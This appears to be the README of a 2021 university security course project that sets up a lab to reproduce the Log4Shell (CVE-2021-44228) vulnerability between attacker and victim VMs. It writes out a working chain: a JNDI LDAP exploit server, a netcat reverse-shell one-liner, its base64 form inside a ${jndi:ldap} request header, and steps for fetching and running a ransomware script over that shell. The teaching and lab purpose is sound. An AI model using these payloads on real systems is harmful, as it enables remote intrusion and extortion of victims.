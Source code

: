 # UNIVR - Fondamenti di Sicurezza e Privacy - project 2021

**--> *This repository is for educational purpose only so do not use it on machines that are not yours* <--**

**--> *Do not run ransomware.sh except in your dedicated test virtual machine. Any file with the chosen extension will be encrypted, so be careful as you may lose your files* <--**

To simulate **CVE-2021-44228**[<sup>1</sup>](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), Log4j vulnerability also known as **Log4Shell**, you can follow this steps.

### General setup

 - Download and install two linux based VM.
 I chosed Kali Linux Virtual Box image[<sup>2</sup>](https://kali.download/virtual-images/kali-2021.4a/kali-linux-2021.4a-virtualbox-amd64.ova)
 - Create a Network with NAT

 <img src="https://github.com/Fantantonio/Log4ShellVictim/blob/master/readme_images/VBox_NAT.png">
 
 - Set the Network to the new one for both VMs

 <img src="https://github.com/Fantantonio/Log4ShellVictim/blob/master/readme_images/VM_Network.png">

 - Run both VMs one after the other and run this command:
 `sudo apt-get update -y && sudo apt-get upgrade -y`
 - Download\* the Java SE Development Kit 8u181 (jdk1.8.0_181) from Oracle website [<sup>3</sup>](https://www.oracle.com/it/java/technologies/javase/javase8-archive-downloads.html#:~:text=jdk%2D8u181%2Dlinux%2Dx64.tar.gz) and install it in the *victim* VM<br>
 *you need an Oracle account (it's free)

### Victim VM setup

- In the victim VM download the [Log4ShellVictim.jar](https://github.com/Fantantonio/Log4ShellVictim/blob/master/Log4ShellVictim.jar) and run it with the command `sudo java- jar /to/your/path/Log4ShellVictim.jar`. The default port is 8080
- Use `ifcongig` command to know your victim VM's IP, in my case is `192.168.0.5`

### Attacker VM setup

- Download the [JNDIExploit.v1.2.zip](https://github.com/black9/Log4shell_JNDIExploit/blob/main/JNDIExploit.v1.2.zip) in the *attacker* VM and unzip it with the command `unzipJNDIExploit.v1.2.zip`
- Run it with the following command: `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.0.4 -p 8888` where `192.168.0.4` is the attacker VM's IP and `8888` is the HTTP listener port. Consider that the LDAP server will listen to the `1389` port by default
- Run `nc -nvlp 1234` in the attacker VM to listen to the `1234` port with Netcat
- Get a reverse shell command like this one: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.0.4 1234 >/tmp/f`\*<br>
 Note that `1234` is the port we set Netcat to listen to earlier<br>
 \* you can use the [Revshell](https://www.revshells.com) website to build your own command
 - Run `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.0.4 1234 >/tmp/f" | base64` to encode it in base64. Of course use your command replacing mine.
 The output should look something like this: `cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguMC40IDEyMzQgPi90bXAvZgo=`
 - Run the curl from the attacher VM like so: `curl 192.168.0.5:8080 -H 'X-Api-Version:${jndi:ldap://192.168.0.4:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguMC40IDEyMzQgPi90bXAvZgo=}’`
 Replace `192.168.0.5` with your victim VM's IP, `192.168.0.4` with your attacker VM's IP and `cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguMC40IDEyMzQgPi90bXAvZgo=` with your remote shell command base64 encoded.

Now you should see the vulnerability letting you as attacker run the command you injected in the request header and the remote shell ready where you set Netcat listen.

### A step further

- Download ransomware.sh file in `\var\www\html` folder of the attacker machine. Remember to edit the script adding your bot token, your telegram account id, the file extensions you want to encrypt and the string you want to write in the README.txt file will be generated for the victim
- Start apache in the attacker machine running `service apache2 start`
- Use the remote shell to download the ransomware file in the victim machine with the command: `wget 192.168.0.4/ransomware.sh` where `192.168.0.4` is the attacker VM's IP
- One more time use the remote shell to run it `sh ransomware.sh` and copy down the decryption key you'll receive in console as output if you want to be able to decrypt everything using the `decrypter.sh` file

### Footnotes
[\[1\] https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)<br>
[\[2\] https://kali.download/virtual-images/kali-2021.4a/kali-linux-2021.4a-virtualbox-amd64.ova](https://kali.download/virtual-images/kali-2021.4a/kali-linux-2021.4a-virtualbox-amd64.ova)<br>
[\[3\] https://www.oracle.com/it/java/technologies/javase/javase8-archive-downloads.html#:~:text=jdk%2D8u181%2Dlinux%2Dx64.tar.gz](https://www.oracle.com/it/java/technologies/javase/javase8-archive-downloads.html#:~:text=jdk%2D8u181%2Dlinux%2Dx64.tar.gz)<br>
